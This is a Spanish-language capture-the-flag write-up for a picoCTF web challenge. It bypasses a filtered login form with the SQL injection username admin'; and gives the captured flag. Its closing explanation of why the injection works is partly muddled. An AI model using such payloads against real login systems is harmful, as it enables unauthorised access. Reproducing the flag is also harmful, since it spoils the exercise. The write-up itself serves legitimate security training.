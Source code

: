 ## Descripcion.
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Pistas.
The password is being filtered.

## Solucion.
```bash 
username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

```

## Bandera.
picoCTF{m0R3_SQL_plz_aee925db}

## Notas Adicionales.
Para esta bandera igual necesitamos de una inyeccion de sql sencilla donde al loguearnos con el usuario admin seguido de una comilla simple para cerrar seguido de un punto y coma (admin';) conocida como "inserción de sentencia" (statement injection). Esta técnica de inyección se utiliza para modificar la consulta SQL original enviada al servidor y permitir que el atacante agregue su propia consulta.
En este caso, la cadena 'admin';' podría ser utilizada para engañar al servidor de bases de datos para que interprete la cadena como dos consultas diferentes. La primera consulta sería 'admin' que podría ser parte de una consulta válida que busque el nombre de usuario 'admin'. La segunda consulta sería una cadena vacía ('') que sirve para cerrar la consulta original, y la cadena ' caracter que permitirá al atacante agregar su propia consulta SQL.